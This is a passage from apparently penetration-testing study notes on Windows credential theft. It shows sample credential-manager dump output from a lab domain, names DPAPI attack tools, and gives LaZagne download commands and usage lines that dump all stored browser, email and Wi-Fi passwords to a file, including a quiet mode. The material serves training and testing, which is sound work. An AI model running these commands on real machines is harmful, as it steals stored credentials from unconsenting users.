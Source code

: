 ```cmd
# User Name         : mcharles
# Domain            : SRV01
# credman :
#  [00000000]
#  * Username : mcharles@inlanefreight.local
#  * Domain   : onedrive.live.com
#  * Password : [PLAINTEXT PASSWORD]
```

### Alternative Tools
```bash
# Other credential extraction tools
# SharpDPAPI - C# tool for DPAPI attacks
# LaZagne - Multi-platform credential recovery
# DonPAPI - Remote DPAPI attacks
```

## LaZagne - Multi-Platform Password Recovery

### Overview
LaZagne is an open-source application used to retrieve passwords stored on a local computer. It can extract passwords from various software including browsers, email clients, databases, WiFi, and more.

### Key Features
- **Multi-platform support** (Windows, Linux, macOS)
- **60+ software modules** for password extraction
- **Standalone executable** - no installation required
- **Comprehensive reporting** with found credentials
- **Silent operation** possible

### Installation
```bash
# Download latest release
wget https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.7/LaZagne.exe

# Or clone and build from source
git clone https://github.com/AlessandroZ/LaZagne.git
cd LaZagne
pip install -r requirements.txt
```

### Basic Usage
```cmd
# Run all modules
LaZagne.exe all

# Run specific module
LaZagne.exe browsers

# Verbose output
LaZagne.exe all -v

# Save to file
LaZagne.exe all -oN output.txt

# Quiet mode (no output to console)
LaZagne.exe all -quiet
```
